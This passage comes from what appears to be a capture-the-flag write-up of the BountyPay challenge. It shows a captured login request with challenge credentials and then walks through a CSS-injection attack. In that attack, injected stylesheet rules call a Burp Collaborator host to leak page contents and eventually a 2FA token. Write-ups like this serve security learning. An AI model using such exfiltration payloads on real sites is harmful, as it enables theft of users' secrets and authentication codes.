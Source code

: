 ```
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://app.bountypay.h1ctf.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8

username=marten.mickos&password=h%26H5wy2Lggj*kKn4OD%26Ype&challenge=827ccb0eea8a706c4c34a16891f84e7b&challenge_answer=12345
```

This gave us access again to the payments panel. After enumerating a bit we discover that there is a payment for `month=05&year=2020`.
Ok lets pay the hackers and save the day then.

But then.... 2FA again. DAMN. And this is different than the previous implementation. We can not bypass the same way.

Hackers should wait a bit more for the payment.

##Final Boss Fight
Upon attempting to submit a request to get a 2FA token the following request was made
{F852302}
At the POST parameter, we can see that a .css file is send. By replacing that value, with a server we control, we can see that we get a callback, also we can notice that special characters are filtered 
e.g. Sending `"><h1>te</h1>` will be `h1teh1`

So given the name of the file and that we can contact the server of our choosing, CSS injection for data ex-filtration comes to mind. An attack i had never attempted, only read about.
After reading one blog post after the other, and attempting to use payloads presented directly, by assuming input name would be `challenge_answer` i got nothing.

So i decided to start from point 0. I stared by trying to enumerate all possible tags presented in that page.

so i created a tags.css file containing content like the following
```
$i {
    background-image: url(https://637k79ooa94s4auqo3b4vru21t7nvc.burpcollaborator.net/$i);
}
```
Where $i was replaced by the possible tag values (e.g. body).  When uploaded to the server and send over to the application, it would send a request to our collaborator appending the tag value that was found. Once running it we got the following valid tags.
```
input
html
head
div
link
input
body
```

